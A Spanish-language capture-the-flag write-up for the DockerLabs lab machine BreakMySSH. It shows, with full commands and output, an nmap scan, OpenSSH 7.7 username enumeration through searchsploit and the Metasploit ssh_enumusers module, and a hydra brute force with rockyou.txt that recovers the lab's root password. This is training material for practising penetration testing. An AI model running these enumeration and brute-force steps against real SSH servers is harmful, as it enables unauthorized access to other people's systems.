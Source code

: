 #MAQUINA #DOCKERLABS #MUY_FACIL 
#SSH_USER_LISTING 
#METASPLOIT #MSFCONSOLE
<hr>

# RECONOCIMIENTO

Vamos a resolver **BreakMySSH** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 13:26 CET
Initiating ARP Ping Scan at 13:26
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:26, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:26
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:26, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-22 13:26:11 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **22(SSH)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 13:29 CET
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).

PORT   STATE  SERVICE VERSION
22/tcp open   ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
80/tcp closed http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds


```


- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.

# EXPLOTACION

Al revisar el ssh y su versión , vemos que la versión tiene un exploitable en searchsploit que nos permite enumerar usuarios.

   ```bash

searchsploit ssh 7.7
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                            | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                      | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                                                                | linux/remote/45939.py
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

En vez de descargarlos, vamos a ver si hay algo en **metasploit**. Encontramos un módulo, que dándole una IP, un puerto y una lista de usuarios nos los valida.

   ```bash

msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'root' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-22 14:02:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-22 14:02:20


```
**usuario : root**
**contraseña: estrella**

**YA ESTAMOS COMO ROOT.**


